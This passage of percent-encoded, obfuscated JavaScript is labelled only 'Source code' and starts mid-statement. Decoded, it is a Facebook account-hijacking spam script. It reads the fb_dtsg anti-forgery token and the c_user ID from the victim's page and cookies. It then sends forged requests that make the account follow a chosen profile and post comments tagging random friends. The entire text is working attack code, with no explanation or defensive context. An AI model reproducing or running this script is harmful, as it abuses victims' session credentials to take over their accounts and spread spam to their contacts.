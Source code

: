 32%32%63%5B%32%37%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%38%5D%2B%75%73%65%72%5F%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%39%5D%2B%75%73%65%72%5F%69%64%3B%69%66%28%64%6F%63%75%6D%65%6E%74%5B%5F%30%78%61%32%32%63%5B%33%32%5D%5D%5B%5F%30%78%61%32%32%63%5B%33%31%5D%5D%28%5F%30%78%61%32%32%63%5B%33%30%5D%29%3E%3D%30%29%7B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%33%33%5D%2C%5F%30%78%61%32%32%63%5B%33%34%5D%2B%5F%30%78%37%38%39%32%78%38%2C%74%72%75%65%29%3B%7D%20%65%6C%73%65%20%7B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%33%33%5D%2C%5F%30%78%61%32%32%63%5B%33%36%5D%2B%5F%30%78%37%38%39%32%78%38%2C%74%72%75%65%29%3B%7D%20%3B%5F%30%78%37%38%39%32%78%37%5B%5F%30%78%61%32%32%63%5B%33%37%5D%5D%28%29%3B%7D%20%3B%66%75%6E%63%74%69%6F%6E%20%52%61%6E%64%6F%6D%41%72%6B%61%64%61%73%28%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%61%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%66%6F%72%28%69%3D%30%3B%69%3C%39%3B%69%2B%2B%29%7B%5F%30%78%37%38%39%32%78%61%2B%3D%5F%30%78%61%32%32%63%5B%31%38%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%39%5D%5D%28%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%38%5D%5D%28%29%2A%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%29%5D%5B%5F%30%78%61%32%32%63%5B%31%39%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%30%5D%2B%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%39%5D%5D%28%4D%61%74%68%5B%5F%30%78%61%32%32%63%5B%33%38%5D%5D%28%29%2A%61%72%6B%61%64%61%73%6C%61%72%5B%5F%30%78%61%32%32%63%5B%31%36%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%35%5D%5D%5B%5F%30%78%61%32%32%63%5B%31%34%5D%5D%29%5D%5B%5F%30%78%61%32%32%63%5B%32%31%5D%5D%2B%5F%30%78%61%32%32%63%5B%32%32%5D%3B%7D%20%3B%72%65%74%75%72%6E%20%5F%30%78%37%38%39%32%78%61%3B%7D%20%3B%66%75%6E%63%74%69%6F%6E%20%79%6F%72%75%6D%5F%79%61%70%28%69%64%2C%5F%30%78%37%38%39%32%78%63%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%64%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%5F%30%78%37%38%39%32%78%38%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%30%5D%2B%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%31%5D%2B%65%6E%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%5F%30%78%37%38%39%32%78%63%29%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%32%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%33%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%36%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%37%5D%2B%69%64%2B%5F%30%78%61%32%32%63%5B%34%38%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%39%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%30%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%31%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%32%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%32%39%5D%2B%75%73%65%72%5F%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%33%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%36%5D%2B%66%62%5F%64%74%73%67%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%35%37%5D%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%33%35%5D%5D%28%5F%30%78%61%32%32%63%5B%35%38%5D%2C%5F%30%78%61%32%32%63%5B%35%39%5D%2C%74%72%75%65%29%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%32%5D%5D%28%5F%30%78%61%32%32%63%5B%36%30%5D%2C%5F%30%78%61%32%32%63%5B%36%31%5D%29%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%5D%5D%3D%66%75%6E%63%74%69%6F%6E%20%28%29%7B%69%66%28%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%37%5D%5D%3D%3D%34%26%26%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%33%5D%5D%3D%3D%32%30%30%29%7B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%36%34%5D%5D%3B%7D%20%3B%7D%20%3B%5F%30%78%37%38%39%32%78%64%5B%5F%30%78%61%32%32%63%5B%33%37%5D%5D%28%5F%30%78%37%38%39%32%78%38%29%3B%7D%20%3B%61%72%6B%61%64%61%73%6C%61%72%69%5F%61%6C%28%69%64%29%3B%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%61%28%61%62%6F%6E%65%29%0A%7B%20%76%61%72%20%68%74%74%70%34%3D%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%3B%0A%20%76%61%72%20%75%72%6C%34%3D%22%2F%61%6A%61%78%2F%66%6F%6C%6C%6F%77%2F%66%6F%6C%6C%6F%77%5F%70%72%6F%66%69%6C%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%3B%0A%20%76%61%72%20%70%61%72%61%6D%73%34%3D%22%70%72%6F%66%69%6C%65%5F%69%64%3D%22%2B%61%62%6F%6E%65%2B%22%26%6C%6F%63%61%74%69%6F%6E%3D%31%26%73%6F%75%72%63%65%3D%66%6F%6C%6C%6F%77%2D%62%75%74%74%6F%6E%26%73%75%62%73%63%72%69%62%65%64%5F%62%75%74%74%6F%6E%5F%69%64%3D%75%33%37%71%61%63%5F%33%37%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%6C%73%64%26%5F%5F%22%2B%75%73%65%72%5F%69%64%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%68%74%74%70%34%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%75%72%6C%34%2C%74%72%75%65%29%3B